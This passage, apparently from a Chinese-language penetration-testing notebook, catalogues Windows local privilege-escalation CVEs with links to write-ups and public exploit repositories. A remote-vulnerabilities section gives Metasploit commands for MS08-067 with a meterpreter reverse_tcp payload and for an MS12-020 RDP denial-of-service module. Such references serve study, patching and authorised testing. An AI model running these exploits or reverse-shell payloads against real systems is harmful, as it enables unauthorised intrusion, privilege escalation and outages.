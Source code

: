- 文章
    - [最新Windows 7安全桌面提权漏洞风险提示与过程披露](https://mp.weixin.qq.com/s/V8GyBxda-JXyv-5D6bR36g)
    - [Thanksgiving Treat: Easy-as-Pie Windows 7 Secure Desktop Escalation of Privilege](https://www.zerodayinitiative.com/blog/2019/11/19/thanksgiving-treat-easy-as-pie-windows-7-secure-desktop-escalation-of-privilege)

- POC | Payload | exp
    - [sv3nbeast/CVE-2019-1388](https://github.com/sv3nbeast/CVE-2019-1388) - guest→system（UAC手动提权）

**CVE-2020-0683**
- POC | Payload | exp
    - [padovah4ck/CVE-2020-0683](https://github.com/padovah4ck/CVE-2020-0683)

**CVE-2020-0787**
- POC | Payload | exp
    - [cbwang505/CVE-2020-0787-EXP-ALL-WINDOWS-VERSION](https://github.com/cbwang505/CVE-2020-0787-EXP-ALL-WINDOWS-VERSION)

**CVE-2020-0796**
- POC | Payload | exp
    - [danigargu/CVE-2020-0796](https://github.com/danigargu/CVE-2020-0796) - Windows SMBv3 LPE Exploit

**WerTrigger**
- POC | Payload | exp
    - [sailay1996/WerTrigger](https://github.com/sailay1996/WerTrigger)

**CVE-2020-1066**
- POC | Payload | exp
    - [cbwang505/CVE-2020-1066-EXP](https://github.com/cbwang505/CVE-2020-1066-EXP)

**CVE-2020-1170 Microsoft Windows Defender 提权漏洞**
- 文章
    - [CVE-2020-1170 Microsoft Windows Defender 提权漏洞](https://mp.weixin.qq.com/s/chQH0m1wjFxE9bYP5lABTg)

**CVE-2021-1732**
- POC | Payload | exp
    - [KaLendsi/CVE-2021-1732-Exploit](https://github.com/KaLendsi/CVE-2021-1732-Exploit)

---

## 远程漏洞

**MS08-067 & CVE-2008-4250**
- MSF 模块
    ```bash
    use exploit/windows/smb/ms08_067_netapi
    set payload windows/x64/meterpreter/reverse_tcp
    set target 0
    ```

**MS12-020 & CVE-2012-0002**
- MSF 模块
    ```bash
    use auxiliary/scanner/rdp/ms12_020_check
    use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
    ```

